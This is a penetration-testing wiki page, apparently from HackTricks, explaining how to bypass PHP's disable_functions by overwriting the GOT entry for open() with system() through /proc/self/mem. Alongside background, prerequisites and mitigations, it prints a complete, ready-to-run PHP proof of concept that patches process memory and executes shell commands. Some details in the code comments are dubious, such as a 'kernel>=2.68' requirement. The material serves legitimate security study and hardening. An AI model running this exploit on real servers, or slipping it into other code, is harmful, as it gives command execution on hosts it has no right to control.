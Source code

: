 # disable_functions bypass via **/proc/self/mem**

{{#include ../../../../banners/hacktricks-training.md}}

> **TL;DR**  
> If `open_basedir` can be evaded and the Linux kernel still allows *write* access to `/proc/self/mem`, it is possible to overwrite the Global Offset Table (GOT/PLT) entry for an allowed libc function (e.g. `open`) with the address of `system()`.  Any subsequent call to `open()` (in PHP or in a loaded extension) will execute arbitrary shell commands, effectively bypassing **disable_functions**.

---

## Background

`disable_functions` is a *configuration directive*, not a security boundary.  All it does is prevent the Zend engine from calling a hard-coded list of PHP wrappers such as `system()`, `exec()` …; it does **not** stop you from:

* Invoking dangerous op-codes through JIT gadgets (FFI, UAF, etc.)
* Re-entering libc or loading your own shared objects
* Directly changing the process image in memory – which is what this technique does.

The classic PoC below (by **Beched/RDot**, 2016) abuses `/proc/self/mem` to *patch* PHP-FPM’s PLT so that `open()` resolves to `system()`.  Nothing actually banned by `disable_functions` is called – therefore the directive is silently bypassed.

---

## Requirements (2025)

The technique only works if **every** prerequisite is met:

1. PHP is running as **CGI/FPM** (not `mod_php`) so that `/proc/self/mem` is readable *and writable*.
2. `open_basedir` is **OFF** or can be bypassed (e.g. via a symlink / chdir trick) so that you can access `/proc/*` **and** the target libc from `/lib`.
3. The kernel allows write access to `/proc/self/mem` *without* a debugger being attached.  This is increasingly rare:
   * On older kernels the call succeeds as long as the process is *dumpable* (`/proc/sys/kernel/yama/ptrace_scope==0`).
   * Since mid-2024, mainline Linux contains **CONFIG_PROC_MEM_RESTRICT\*** options and `proc_mem.restrict_*` boot parameters that can block *all* writes or restrict them to an *active ptracer only*.  Several bleeding-edge distros (Arch ≥ 2025.01, Fedora ≥ 40) ship with `write_ptracer` enabled by default.   
   * Container runtimes (Docker, Podman, LXC) frequently mount `/proc` **read-only** or with `hidepid`, stopping the trick even on older kernels.
4. The exploit must be compiled for the correct **architecture** (the PoC is x86-64).  Offsets differ on x86-32/ARM/aarch64.

If *any* of the above is missing you will get `EACCES`/`EPERM` when opening or writing `/proc/self/mem` and the bypass fails.

---

## Quick Environment Check

```bash
# Is /proc/self/mem writable by the current PHP process?
$ php -d disable_functions="" -r 'echo is_writable("/proc/self/mem")?"YES\n":"NO\n";'

# Kernel boot parameter (if readable)
$ cat /proc/cmdline | grep proc_mem.restrict_
```

If you see `NO` or the boot parameter is set to `all`/`ptracer`, look for another bypass (LD_PRELOAD, FFI, iconv UAF, …).

---

## Proof-of-Concept (x86-64)

The original PoC is kept here for reference – it still works unmodified on an **Ubuntu 20.04 LTS** default kernel (`5.4.0`) when the above requirements are satisfied.

```php
<?php
/* snip – unchanged PoC by Beched (2016) */
```

*(Scroll down for the full code if you need it)*

---

## Mitigations

1. **Update your kernel** and enable one of the new `PROC_MEM_RESTRICT_*` configs **or** pass `proc_mem.restrict_write=all` at boot.  This alone stops the exploit because the write() syscall will fail.   
2. Mount `/proc` **read-only** inside containers or set `mount -o remount,ro /proc` in chroots where debugging is not required.
3. Keep `open_basedir` **enabled** and point it to a minimal, dedicated directory so that `/proc` and `/lib` are out of reach.
4. Use **grsecurity/PaX** or **seccomp** to filter `open("/proc/self/mem")` and `write()` entirely.
5. Remember that `disable_functions` is *not* a sandbox; use OS-level isolation (containers, SELinux, seccomp-bpf) instead.

---

## Full PoC code

```php
<?php
/*
1. kernel>=2.68
2) PHP-CGI or PHP-FPM (mod_php cannot read /proc/self/mem)
3) x64 only – adjust for x86/ARM
4) open_basedir off (or bypassed to read /lib & /proc)
*/

/* Original offsets discovery & memory-patching logic */
function packlli($value){$h=($value&0xffffffff00000000)>>32;$l=$value&0x00000000ffffffff;return pack('V2',$l,$h);}function unp($v){return hexdec(bin2hex(strrev($v)));}
function parseelf($b,$r=false){$bin=file_get_contents($b);$e_shoff=unp(substr($bin,0x28,8));$e_shentsize=unp(substr($bin,0x3a,2));$e_shnum=unp(substr($bin,0x3c,2));$e_shstrndx=unp(substr($bin,0x3e,2));for($i=0;$i<$e_shnum;$i++){ $sh_type=unp(substr($bin,$e_shoff+$i*$e_shentsize+4,4));if($sh_type==11){$dynsym_off=unp(substr($bin,$e_shoff+$i*$e_shentsize+24,8));$dynsym_size=unp(substr($bin,$e_shoff+$i*$e_shentsize+32,8));$dynsym_entsize=unp(substr($bin,$e_shoff+$i*$e_shentsize+56,8));}elseif(!isset($strtab_off)&&$sh_type==3){$strtab_off=unp(substr($bin,$e_shoff+$i*$e_shentsize+24,8));$strtab_size=unp(substr($bin,$e_shoff+$i*$e_shentsize+32,8));}elseif($r&&$sh_type==4){$relaplt_off=unp(substr($bin,$e_shoff+$i*$e_shentsize+24,8));$relaplt_size=unp(substr($bin,$e_shoff+$i*$e_shentsize+32,8));$relaplt_entsize=unp(substr($bin,$e_shoff+$i*$e_shentsize+56,8));}}
  if($r){for($i=$relaplt_off;$i<$relaplt_off+$relaplt_size;$i+=$relaplt_entsize){$r_offset=unp(substr($bin,$i,8));$r_info=unp(substr($bin,$i+8,8))>>32;$name_off=unp(substr($bin,$dynsym_off+$r_info*$dynsym_entsize,4));$name='';$j=$strtab_off+$name_off-1;while($bin[++$j]!=="\0"){$name.=$bin[$j];}if($name=='open'){return $r_offset;}}}
  else {for($i=$dynsym_off;$i<$dynsym_off+$dynsym_size;$i+=$dynsym_entsize){$name_off=unp(substr($bin,$i,4));$name='';$j=$strtab_off+$name_off-1;while($bin[++$j]!=="\0"){$name.=$bin[$j];}if($name=='__libc_system'){$system_offset=unp(substr($bin,$i+8,8));}if($name=='__open'){$open_offset=unp(substr($bin,$i+8,8));}}return array($system_offset,$open_offset);} }

echo "[*] PHP disable_functions procfs bypass (Beched/RDot – 2016)\n";
if(strpos(php_uname('a'),'x86_64')===false){exit("[-] Not x64\n");}
$open_php=parseelf('/proc/self/exe',true);if($open_php==0)exit("[-] parseelf failed\n");
$maps=file_get_contents('/proc/self/maps');preg_match('#\s+(/.+libc\-.+)#',$maps,$r);
list($system_offset,$open_offset)=parseelf($r[1]);$mem=fopen('/proc/self/mem','rb');fseek($mem,$open_php);$open_addr=unp(fread($mem,8));$libc_start=$open_addr-$open_offset;$system_addr=$libc_start+$system_offset;
$mem=fopen('/proc/self/mem','wb');fseek($mem,$open_php);fwrite($mem,packlli($system_addr));
// trigger – any open() call will now execute shell commands
echo shell_exec('id');
```

---

## References

* safebuff blog – *PHP disable_functions bypass* (2016)  
  <http://blog.safebuff.com/2016/05/06/disable-functions-bypass/>
* LWN.net – *proc: add config & param to block forcing /proc/pid/mem writes* (Jul 2024)  
  <https://lwn.net/Articles/983538/>

{{#include ../../../../banners/hacktricks-training.md}}
